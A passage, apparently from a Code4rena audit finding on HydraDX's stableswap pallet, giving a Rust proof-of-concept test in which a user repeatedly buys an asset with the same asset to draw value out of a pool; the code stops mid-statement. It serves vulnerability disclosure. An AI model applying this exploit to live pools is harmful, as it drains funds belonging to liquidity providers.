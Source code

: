 ### Coded POC to demonstrate the vulnerability

Consider add this test into the test file `trade.rs` [here](https://github.com/code-423n4/2024-02-hydradx/blob/main/HydraDX-node/pallets/stableswap/src/tests/trades.rs), and see the logs resulted from this test:

```rust
#[test]
fn test_set_asset_in_equal_asset_out_will_be_profitable() {
	let asset_a: AssetId = 1;
	let asset_b: AssetId = 2;
	let dec_a: u8 = 18;
	let dec_b: u8 = 6;
	ExtBuilder::default()
		.with_endowed_accounts(vec![
			(BOB, asset_a, to_precision!(200, dec_a)),
			(ALICE, asset_a, to_precision!(200, dec_a)),
			(ALICE, asset_b, to_precision!(200, dec_b)),
		])
		.with_registered_asset("one".as_bytes().to_vec(), 1, dec_a)
		.with_registered_asset("two".as_bytes().to_vec(), 2, dec_b)
		.with_pool(
			ALICE,
			PoolInfo::<AssetId, u64> {
				assets: vec![asset_a, asset_b].try_into().unwrap(),
				initial_amplification: NonZeroU16::new(100).unwrap(),
				final_amplification: NonZeroU16::new(100).unwrap(),
				initial_block: 0,
				final_block: 0,
				fee: Permill::from_float(0.01),
			},
			InitialLiquidity {
				account: ALICE,
				assets: vec![
					AssetAmount::new(asset_a, to_precision!(100, dec_a)),
					AssetAmount::new(asset_b, to_precision!(100, dec_b)),
				],
			},
		)
		.build()
		.execute_with(|| {
			let pool_id = get_pool_id_at(0);
			let pool_account = pool_account(pool_id);
			let asset_a_state_before = Tokens::free_balance(asset_a, &pool_account);

			let balance_before = Tokens::free_balance(asset_a, &BOB);
			for _ in 0..5 {
				assert_ok!(Stableswap::buy(
					RuntimeOrigin::signed(BOB),
					pool_id,
					asset_a,
					asset_a,
					to_precision!(20, dec_a),
					to_precision!(31, dec_a),
				));
			}
			let asset_a_state_after = Tokens::free_balance(asset_a, &pool_account);

			// the user here received the fees
			// 229_999_999_999_999_999_994
			let balance_after = Tokens::free_balance(asset_a, &BOB);
			println!(
				"pool balance of asset a before the attack = {:?} ",
				asset_a_state_before
```
